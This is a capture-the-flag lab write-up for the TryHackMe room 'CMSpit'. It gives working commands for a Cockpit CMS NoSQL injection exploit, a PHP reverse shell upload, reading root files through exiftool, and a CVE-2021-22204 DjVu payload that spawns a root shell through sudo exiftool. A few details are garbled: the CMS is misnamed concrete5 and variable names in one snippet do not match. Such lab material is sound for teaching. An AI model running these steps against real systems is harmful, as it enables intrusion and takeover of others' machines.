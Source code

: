 Room: [CMSpit](https://tryhackme.com/room/cmspit)

Difficulty: Medium

Overview: In this room we are going to exploit a NoSQL injection vulnerability on CMS concrete5 webserver, privesc horizontaly and then verticaly taking advantage of a fresh exploit for a tool called Exiftool.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Let's start our enumeration fase with "nmap" and search for all open ports on the target system:

```
nmap -sV -sC -p- cmspit.thm -oN nmap.txt

-sV    →  Probe open ports to determine service
-sC    →  Scan using the default set of scripts
-p-    →  Scan all ports
-oN    →  Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/130663300-0daf3ea7-10d5-4683-a33b-c5c7f9926436.png)

There are only two open ports:

22  →  OpenSSH 7.2p2

80  →  Apache httpd 2.4.18

After visiting the webpage i was redirected to a login portal:

![image](https://user-images.githubusercontent.com/76821053/130663322-4f143cb8-3435-45e4-88ba-50a7688e3115.png)

To better analyze the webserver we can use “nikto” which performs comprehensive scan tests against web servers:

```
nikto -h http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663353-a2ccd257-07b3-4d01-8ecb-0dc3e8006878.png)

We found a file that contains usefull information:

![image](https://user-images.githubusercontent.com/76821053/130663377-8f4148cd-2a5b-4c3f-bd21-643e16fe622a.png)

Now that we have information about the content management system, its name and version. We can search [exploit-db](https://www.exploit-db.com/) for a possible exploit:

![image](https://user-images.githubusercontent.com/76821053/130663403-9d54e3c6-a765-4daf-a9b4-08c50504ec5f.png)

There is a exploit with a CVE number of CVE-2020-35846. This exploit takes advantage of NoSQL injection in /auth/check path which will let us do some username enumeration and password reset. You can find more information about this exploit at [PT SWARM webpage](https://swarm.ptsecurity.com/rce-cockpit-cms/). They have a brake down of this exploit in detail. 

So to automate this process we are going to use the exploit script that we found at exploit-db, this exploit is a combination of CVE-2020-35847 and CVE-2020-35848:

```
python3 cockpit_exploit.py -u http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663470-7bb60910-680e-4aec-9bd0-68d46564bd08.png)

This exploits found all the users in the database. If we want to find the email address of "skidy" we can just rerun the exploit and choose a diferent username:

![image](https://user-images.githubusercontent.com/76821053/130663496-d0b3c798-24e7-4640-abf4-d8b03f6727a4.png)

Now we can login to the webserver with the newly created “admin” credentials:

![image](https://user-images.githubusercontent.com/76821053/130663516-5053baa8-cd6f-4d15-806a-2512f7f42c54.png)

After browsing the admin dashboard there is an option to upload files to the webserver, so we are going to upload a php payload to get a reverse shell connection.

The php payload that i like to use is from “pentestmonkey”, you can download it from his [github page](https://github.com/pentestmonkey/php-reverse-shell).

Change this two parameters, ip and port to match your own:

![image](https://user-images.githubusercontent.com/76821053/130663540-5c05d719-94e6-439a-b53f-206f262673c0.png)

To upload the shell. From the dashboard choose “Finder”:

![image](https://user-images.githubusercontent.com/76821053/130663563-b91138cc-6ab9-4009-9767-cbc01e77e4c8.png)

And upload the payload to, for example "install" directory:

![image](https://user-images.githubusercontent.com/76821053/130663586-83207272-723b-47fb-a639-d2d48cf71e96.png)

To trigger the payload we just need to go to the correct url path:

```
http://ip_of_room/install/php-reverse-shell.php
```

![image](https://user-images.githubusercontent.com/76821053/130663629-5503c09d-f36f-4308-b871-2495679f7ce4.png)

And in our listener we will receive a shell:

![image](https://user-images.githubusercontent.com/76821053/130663675-ad2eea14-f9e1-47cd-8488-6e7bfaaccc6f.png)

To upgrade our shell to a tty one we can use this python command:

```
python3 -c "__import__('pty').spawn('/bin/bash')"
```

![image](https://user-images.githubusercontent.com/76821053/130663702-5dc9d078-ab92-4e14-8bd3-eb5f7131727e.png)

We can find the web flag at "/var/www/html/cockpit". Everytime we need to find a web related flag we should always start at the home of html path server:

![image](https://user-images.githubusercontent.com/76821053/130663729-dd85466a-fdd9-49f2-9132-45cbeb648058.png)

Enumerating the machine further we can escalate our privileges by checking user “stux” home directory:

![image](https://user-images.githubusercontent.com/76821053/130663754-dc274087-e2ce-4029-93c7-ffbd6ed376fc.png)

Inside his directory there is a database file called ".dbshell":

![image](https://user-images.githubusercontent.com/76821053/130663779-eb933f36-b75d-4d7b-bc93-6905a3e16ba9.png)

We have credentials for “stux” so let's login into that user:

```
su stux
```

![image](https://user-images.githubusercontent.com/76821053/130663805-9ec8f3dc-3051-4d67-ab83-c5983d2d3764.png)

With “stux” we can read the user flag:

![image](https://user-images.githubusercontent.com/76821053/130663832-2c8b4b5a-ace7-44f2-8235-22655cddf6dc.png)

Before going further we can change this shell to a ssh session:

![image](https://user-images.githubusercontent.com/76821053/130667323-dc32ad75-ef30-4996-a6d9-eab557ad013d.png)

Let's check his sudo permitions:

```
sudo -l
```

![image](https://user-images.githubusercontent.com/76821053/130667424-5ccad75a-8d3c-4826-8672-59aaac4b31f9.png)

“stux” can ran sudo on "exiftool" has user “root”. So let's head to [GTFOBins](https://gtfobins.github.io/gtfobins/exiftool/) and to see if there is any way we can exploit exiftool:

![image](https://user-images.githubusercontent.com/76821053/130663871-e38f081a-bb67-45b9-966e-72e01700391d.png)

Having sudo permissions to run exiftool we can easily read the root.txt flag if we follow GTFOBins read method:

```
LFILE=/root/root.txt
OUPUT=/home/stux/privesc
sudo exiftool -filename=$OUTPUT $FILE
cat $OUTPUT
```

![image](https://user-images.githubusercontent.com/76821053/130663893-48a725d2-e7b5-4477-9f3e-16078500ae52.png)

Now, if we want to escalate our privileges to “root” user we need to take advantage of a exiftool vulnerability.

This vulnerability has a CVE number of CVE-2021-22204:

![image](https://user-images.githubusercontent.com/76821053/130663938-2eca61ed-b152-4ccf-91da-e6ec19299961.png)

There is an awesome report on this bug in detail by [Convisoappsec](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/).

There you will learn how to exploit the system by taking advantage of a tool called “djvumake”:

![image](https://user-images.githubusercontent.com/76821053/130663950-83e3b5d6-f2ce-4c87-b56e-7792eeb7ebf0.png)

Let's follow the steps and reproduce this vulnerability.

First we need to create a payload and save it to a file:

```
(metadata “\c${system('/bin/bash -p')};”)
``` 

![image](https://user-images.githubusercontent.com/76821053/130663968-94c0b308-a329-407c-8464-645d172a41be.png)

Next we need to compress the payload, create a .djvu file and trigger the exploit with exiftool:

```
bzz payload payload.bzz

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

sudo exiftool exploit.djvu
```

![image](https://user-images.githubusercontent.com/76821053/130664000-ce9897db-e146-42f2-91f1-ecbd612c1ea6.png)

Success, we are now “root”!!!

We can access “root's” directory and read the root.txt file:

![image](https://user-images.githubusercontent.com/76821053/130664023-d82d961c-e580-4015-a5b0-a5df97ce2c63.png)
















